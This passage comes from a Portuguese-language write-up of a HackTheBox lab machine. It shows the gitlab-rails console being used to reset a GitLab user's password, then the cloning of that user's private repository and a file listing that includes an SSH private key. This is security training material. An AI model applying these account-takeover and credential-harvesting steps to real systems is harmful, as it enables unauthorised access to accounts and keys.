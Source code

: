 ```bash
git@git:~/gitlab-rails$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> user = User.find_by(email: "admin@example.com")
=> #<User id:1 @dexter>
irb(main):002:0> user.password = "P@ssw0rd"
=> "P@ssw0rd"
irb(main):003:0> user.password_confirmation = "P@ssw0rd"
=> "P@ssw0rd"
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: 0f18c1b4-9929-47a5-90d7-ec16a7e6f293) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa424ee0668 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> 
```

Após alterada a senha, foi possível visualizar para a conta `dexter` um repositório privado adicional chamado **SecureDocker**.

![gitlab dexter projects](https://i.imgur.com/sxEzY97.png){: .align-center}

Já que temos acesso ao código-fonte do repositório, notado que existem alguns scripts e **chave SSH** do usuário dexter, conforme mencionado na descrição do repositório.

> CONFIDENTIAL - Secure docker configuration for homeserver. Also some personal stuff, I'll figure that out later.

Após clonar o repositório para máquina local observados os seguintes arquivos.

```bash
$ git -c http.sslVerify=false clone http://git.laboratory.htb/dexter/securedocker.git  
Cloning into 'securedocker'...
Username for 'https://git.laboratory.htb': dexter
Password for 'https://dexter@git.laboratory.htb': 
warning: redirecting to https://git.laboratory.htb/dexter/securedocker.git/
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
```

```bash
$ tree -a -I '.git'
.
├── create_gitlab.sh
├── dexter
│   ├── recipe.url
│   ├── .ssh
│   │   ├── authorized_keys
│   │   └── id_rsa
│   └── todo.txt
└── README.md

2 directories, 6 files
```
